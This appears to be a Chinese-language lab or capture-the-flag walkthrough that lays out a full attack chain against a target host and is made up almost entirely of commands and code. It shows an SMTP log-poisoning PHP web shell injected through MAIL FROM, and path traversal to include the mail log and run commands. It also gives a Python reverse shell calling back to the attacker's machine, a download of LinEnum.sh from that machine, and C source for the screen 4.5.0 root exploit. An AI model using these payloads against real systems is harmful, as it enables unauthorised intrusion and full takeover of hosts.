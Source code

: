nc 172.16.2.5 25  或者：telnet 172.16.2.5 25
1）HELO hackerman    ---向服务器标识用户身份
2）MAIL FROM:"hackerman <?php echo shell_exec($_GET['cmd']);?>"   ---MAIL FROM:发件人
3）RCPT TO:root   ---RCPT TO:收件人
4）DATA    ---开始编辑邮件内容
5）.       ---输入点代表编辑结束
http://172.16.2.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail&cmd=id

加入python一句话：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.2.4",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import pty; pty.spawn("/bin/bash")'

ctrl+z
stty raw -echo
fg
-----

内网信息枚举：查看SUID

find / -perm -4000 2>/dev/null
发现screen存在4.5.0版本信息！

wget http://172.16.2.4:5555/LinEnum.sh


提权方法：
--------------------
/bin/screen-4.5.0
谷歌搜索：screen-4.5.0 exploit
41154：https://www.exploit-db.com/exploits/41154

----命名为：libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
----

----命名为：rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
----
kali开启：python3 -m http.server 8081
